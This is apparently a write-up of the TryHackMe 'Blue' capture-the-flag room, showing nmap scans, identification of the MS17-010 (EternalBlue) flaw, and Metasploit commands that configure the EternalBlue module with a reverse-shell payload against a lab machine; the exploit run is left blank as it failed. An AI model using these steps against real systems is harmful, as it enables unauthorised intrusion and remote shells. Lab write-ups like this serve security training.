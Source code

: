 ## Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Cracking](#cracking)



## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Once the machine is started, we'll start by scanning the network: 

```console
$ sudo nmap -sS -vv MACHINE_IP
...
Initiating SYN Stealth Scan at 15:45
Scanning MACHINE_IP [1000 ports]
Discovered open port 135/tcp on MACHINE_IP
Discovered open port 3389/tcp on MACHINE_IP
Discovered open port 139/tcp on MACHINE_IP
...
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49158/tcp open  unknown       syn-ack ttl 127
49160/tcp open  unknown       syn-ack ttl 127

...
```

So, from this simple scan, we get the answer to the first question asked in the room:

> How many ports are open with a port number under 1000?
> > 3

We can further check the service versions by running a service scan on ports `135`, `139` and `445`:

```console
$ nmap -sV -vv -p135,139,445 MACHINE_IP 
...

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

...
```

Nothing interesting... Well, the answer to the next question will be the exploit code corresponding to the `Eternal Blue` exploit. How did I get to that conclusion? To be honest, it's quite obviously displayed all over the web page when you view the room on Tryhackme: 

![](blue-room-top.png)

A simple and quick search tells us the exploit's alternative name:

![](eblue-search.png)

Thus, we get the answer to the next question:

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
> > MS17-010

## Gaining Access

Armed with the knowledge we gained from the enumeration phase, let's try and exploit the machine we're given.

Now, there's 2 ways to do this, with metasploit and without it. We'll try and do it with metasploit but I'll try and make a section where I give it a go without using metasploit.

After we fire up `msfconsole`, we can try and search for any available exploits:

```console
$ sudo msfconsole -q
msf6 > search eternal blue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution                 
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection                                                                                  
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

The one we're looking for is the first one, `exploit/windows/smb/ms17_010_eternalblue`. So we get the answer for the first question in this section:

> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
> > exploit/windows/smb/ms17_010_eternalblue

We can have a look at the options of the module we've selected like so:

```console
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.80.0.96       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

We'll need to set some of these, the first and most essential being `RHOSTS`:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS  MACHINE_IP 
RHOSTS => MACHINE_IP
```

That's the answer to the second question:

> Show options and set the one required value. What is the name of this value? (All caps for submission)
> > RHOSTS

Next, we'll be setting the payload for the exploit, I'll be using `windows/x64/shell/reverse_tcp` as indicated in the room's instructions:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```


And now, we just run the exploit and see the magic happen!
> Note that if this does not work, just reboot the VM by terminating it and starting it again, and then running this exploit after updating RHOSTS

```console
```

#### Well, The exploit's not working at all for me, so I'll update this writeup when it does. Cheers!

